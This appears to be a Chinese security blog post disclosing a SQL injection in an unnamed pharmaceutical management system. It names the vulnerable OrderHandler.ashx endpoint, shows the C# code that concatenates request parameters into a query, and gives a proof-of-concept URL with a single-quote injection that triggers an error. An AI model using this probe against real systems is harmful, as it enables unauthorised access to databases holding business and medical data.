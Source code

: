 #  【1day】某医药系统存在前台SQL注入漏洞   
原创 XingYue404  星悦安全   2025-06-03 11:29  
  
![图片](https://mmbiz.qpic.cn/sz_mmbiz_jpg/lSQtsngIibibSOeF8DNKNAC3a6kgvhmWqvoQdibCCk028HCpd5q1pEeFjIhicyia0IcY7f2G9fpqaUm6ATDQuZZ05yw/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
点击上方  
蓝字  
关注我们 并设为  
星标  
## 0x01 漏洞分析  
  
XX医药管理系统  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5d6VwFeEZ8uk2q7Aw1y09oicqC3rFa6FXnZg0BlhAh6CGkUnSxumwD1hrviaCNQ30v1RIFwicdvg5sQA/640?wx_fmt=png&from=appmsg "")  
  
工具一把梭哈找前台接口，分析代码  
  
/admin/caiwuchongxiao/OrderHandler.ashx  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5d6VwFeEZ8uk2q7Aw1y09oickEHsWTiaicZqQYY0O2UQxqA3rGFoPLibeGAx53qWhBJvtPZbEJSWB7VKw/640?wx_fmt=png&from=appmsg "")  
  
```
context.Response.Write(GetData("list", context.Request["ID"].ToString(),
context.Request["ordertype"].ToString()));

```  
  
  
接收 get 传参的 ID 和 ordertype 拼接到 sql 语句去执行  
  
POC  
  
```
/admin/caiwuchongxiao/OrderHandler.ashx?ID=1&ordertype=1

```  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5d6VwFeEZ8uk2q7Aw1y09oicD274Ic0X2vPMic5xja6kuqDDyqZxbyepYo3J3arIRkk3qR9m6ycofEA/640?wx_fmt=png&from=appmsg "")  
  
单引号报错语法错误  
  
```
/admin/caiwuchongxiao/OrderHandler.ashx?ID=1%27&ordertype=1

```  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5d6VwFeEZ8uk2q7Aw1y09oicdhkbiaajLgibPZTTgeiaURia2LjPxeibTM9OicC8u6ciaXm2Ee654v8zicvWZg/640?wx_fmt=png&from=appmsg "")  
## 0x02 关注公众号  
  
**标签:代码审计，0day，渗透测试，系统，通用，0day，闲鱼，转转**  
  
**关注公众号，持续更新安全文章!**  
  
****  
  
****  
**免责声明:文章中涉及的程序(方法)可能带有攻击性，仅供安全研究与教学之用，读者将其信息做其他用途，由读者承担全部法律及连带责任，文章作者和本公众号不承担任何法律及连带责任，望周知！！!**  
  
